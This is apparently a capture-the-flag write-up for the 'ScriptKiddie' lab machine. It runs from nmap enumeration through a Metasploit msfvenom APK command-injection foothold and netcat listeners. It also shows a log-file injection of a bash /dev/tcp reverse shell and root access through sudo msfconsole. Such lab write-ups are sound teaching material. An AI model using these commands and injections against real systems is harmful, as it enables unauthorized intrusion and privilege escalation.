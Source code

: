 Target: 10.10.10.226

## Enumeration:

nmap
```
$ nmap -sC -sV 10.10.10.226

Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 06:11 PDT
Nmap scan report for 10.10.10.226
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.226:5000

![index](scriptkiddie1.png)

### Findings:Looking for attack vectors

The website can run nmap, msfvenom, and searchsploit.
Look for possible exploits for these three services.


## Foothold:

This module exploits a command injection vulnerability in Metasploit Framework’s msfvenom payload generator when using a crafted APK file as an Android payload template. Affects Metasploit Framework <= 6.0.11 and Metasploit Pro <= 4.18.0. The file produced by this module is a relatively empty yet valid-enough APK file. To trigger the vulnerability, the victim user should do the following: msfvenom -p android/ -x

[Exploit Link](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection.rb)

Metasploit
```
$ msfconsole
```

```
search msfvenom
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
set LHOST tun0
run
[+] msf.apk stored at /home/kali/.msf4/local/msf.apk
```

upload the file in template

![payload](scriptkiddie2.png)

opening a nc listener on port 4444
```
$ nc -lnvp 4444
```

upgrading shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

```
kid@scriptkiddie:~$ id

uid=1000(kid) gid=1000(kid) groups=1000(kid)
```

```
kid@scriptkiddie:~$ cat user.txt

<redacted>
```


## Lateral Movement:

looking for suspicious file/s
```
kid@scriptkiddie:~$ cd /home

kid@scriptkiddie:/home$ ls

pwn  kid

kid@scriptkiddie:/home$ cd pwn

kid@scriptkiddie:/home/pwn$ ls -la

total 44
drwxr-xr-x 6 pwn  pwn  4096 Feb  3 12:06 .
drwxr-xr-x 4 root root 4096 Feb  3 07:40 ..
lrwxrwxrwx 1 root root    9 Feb  3 12:06 .bash_history -> /dev/null
-rw-r--r-- 1 pwn  pwn   220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 pwn  pwn  3771 Feb 25  2020 .bashrc
drwx------ 2 pwn  pwn  4096 Jan 28 17:08 .cache
drwxrwxr-x 3 pwn  pwn  4096 Jan 28 17:24 .local
-rw-r--r-- 1 pwn  pwn   807 Feb 25  2020 .profile
-rw-rw-r-- 1 pwn  pwn    74 Jan 28 16:22 .selected_editor
drwx------ 2 pwn  pwn  4096 Feb 10 16:10 .ssh
drwxrw---- 2 pwn  pwn  4096 Feb  3 12:00 recon
-rwxrwxr-- 1 pwn  pwn   250 Jan 28 17:57 scanlosers.sh

kid@scriptkiddie:/home/pwn$ cat scanlosers.sh 

#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

scanloser.sh reads /home/kid/logs/hackers as variable log. It then prints out its contents then is piped to cut with the delimeter 'space' and removes everything but the 3rd field onwards. It is then piped to sort to only see unique (no repeating) set of strings then lastly piped to a while loop to do a nmap scan to the ip.

opening another nc listener on port 4242
```
$ nc -lnvp 4242
```

crafting a reverse shell
```
kid@scriptkiddie:/home/pwn$ echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/<ip>/4242 0>&1' #" >> /home/kid/logs/hackers
```

```
pwn@scriptkiddie:~$ id

uid=1001(pwn) gid=1001(pwn) groups=1001(pwn)
```


## Priv Escalations:

```
pwn@scriptkiddie:~$ sudo -l

Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

```
pwn@scriptkiddie:~$ sudo msfconsole
```

```
msf6 > id

uid=0(root) gid=0(root) groups=0(root)
```

```
msf6 > cat /root/root.txt

<redacted>
```
